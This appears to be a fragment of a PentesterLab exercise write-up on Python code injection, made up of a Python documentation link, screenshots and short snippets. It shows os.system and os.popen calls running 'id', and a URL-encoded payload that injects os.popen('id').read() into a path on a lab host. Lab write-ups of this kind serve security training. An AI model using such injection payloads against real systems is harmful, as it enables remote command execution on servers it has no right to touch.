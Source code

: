 [Built-in Types &#8212; Python 3.11.5 documentation](https://docs.python.org/3/library/stdtypes.html#str)

```
os.system('id')
```

![image](https://github.com/r1skkam/PentesterLab-Exercises/assets/58542375/31c42bd0-a6b3-4724-a2c0-2b620a4f29ab)

```
os.popen('[CMD]').read()
```

```
os.popen('id').read()
```

```
http://ptl-011538e1-1c7c92d0.libcurl.so/hello/hacker%60%22%2bos.popen('id').read()%2b%22test%60
```

![image](https://github.com/r1skkam/PentesterLab-Exercises/assets/58542375/c3d65a95-8137-43cd-9c40-54baabf41164)

